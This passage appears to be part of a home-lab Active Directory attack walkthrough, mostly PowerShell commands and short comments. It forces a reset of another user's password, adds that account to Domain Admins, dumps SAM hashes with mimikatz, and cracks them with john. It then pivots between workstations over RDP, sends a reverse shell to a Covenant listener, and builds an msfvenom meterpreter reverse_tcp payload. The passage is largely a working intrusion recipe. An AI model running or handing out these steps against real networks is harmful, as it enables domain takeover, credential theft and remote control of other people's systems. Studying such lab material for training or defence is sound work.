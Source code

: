 
Now that we have more access, we are gonna force a password change by another user:
```powershell
$SecPassword = ConvertTo-SecureString 'password of user1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('domain\user1', $SecPassword)
$UserPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity <user2> -AccountPassword $UserPass -Credential $cred

net user <user2> /domain
# I can see that user2 is a member of Administrator, he has WriteDacl rights to DC

Enter-PSSession -ComputerName dc01 -Credential <domain\user2>
# We just opened a session in DC with the new credentials we created by force of user2
```

In this new Covenant DC01 session:
```powershell
net group "Domain admins" <user2> /add /domain
net user <user2> /domain
```

> We are part of domain admins group in the DC


## Pivoting through Remote Desktop via Compromised Host
Create a local account For <user2> first, grant local admin privileges, and then log in as **user2** locally. This will simulate the user as a help desk/technician logging in to service the machine and the hash being cached


**Log as user2 in workstation-01**:
```powershell
> logout > log as user1

open powershell as administrator > send revshell to Covenant listener 
# because we need high integrity shell
```

**in Covenant shell**:
```powershell
mimikatz token::elevate lsadump::sam
grab the hashes from user2
crack the hashes > john hashes.txt --format=nt -w=/rockyou.txt

Now that we have the password of user2
we can pivot from 'user1-workstation-01' to 'user2-workstation-02'
# we can log in user1 and RDP to user2 For example
```

> Now that we are inside workstation-02 using user2
we can pivot to DC01 using user2 because he has access; we can see that in Bloodhound



## Configuring Reverse Port Forward
```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<kali ip> lport=25 -f raw -o msf.bin
```
